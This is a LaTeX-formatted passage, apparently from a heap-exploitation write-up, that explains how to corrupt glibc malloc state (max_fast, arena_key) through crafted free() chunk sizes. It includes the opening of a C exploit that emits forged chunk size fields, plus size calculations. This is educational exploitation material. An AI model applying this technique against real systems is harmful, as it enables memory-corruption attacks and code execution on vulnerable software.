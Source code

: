 \documentclass[12pt]{article}
\begin{document}
The result is very evident, from that moment we can run the same piece of
code in free() whenever the size of chunk that will be passed to free()
is less than the value of the chunk address "p" previously free()'d.
\newline


Typically: av$->$max\_fast = 0x00000048, and now is 0x080YYYYY. What is
more than you need.
\newline


To pass the integrity chesks of the first free() call, we need these
sizes:
\begin{lstlisting}[language=C]
chunk "p" -> 8 (0x9h if PREV\_INUSE bit is set).
nextchunk -> 10h is a good value ( 8 < "0x10h" < av->system\_mem )
\end{lstlisting}
So the exploit would start with something like this:

\begin{lstlisting}[language=C]
int main (void) {

        int i, j;

        for (i = 0; i < 1028; i++)                           /* FILLER */
                putchar(0x41);

        fwrite("\x09\x00\x00\x00", 4, 1, stdout); /* free(1) ptr1 size */
        fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* FILLER */
        fwrite("\x10\x00\x00\x00", 4, 1, stdout); /* free(1) ptr2 size */
\end{lstlisting}


The next mission is to overwrite the value of "arena\_key" (read Malloc
Maleficarum for details) which is typically above "av" (\&main\_arena).
\newline


As we can use chunks of very large sizes, we can make that
\&(av$->$fastbins[x]) points very far. At least enough to reach the
value of "arena\_key" and overwrite it with the "p" address.
\newline


Taking the example of Phantasmal, we would have to resize the second chunk
to with the next value:

\begin{verbnobox}[\small]
   1156 bytes / 4 = 289
   (289 + 2) << 3 = 2328 = 0x918h -> 0x919 (PREV\_INUSE)
\end{verbnobox}

You have to check again the "size" field of the next chunk, whose address
is calculated from the value that we obtain a moment ago.
\newline
\end{document}
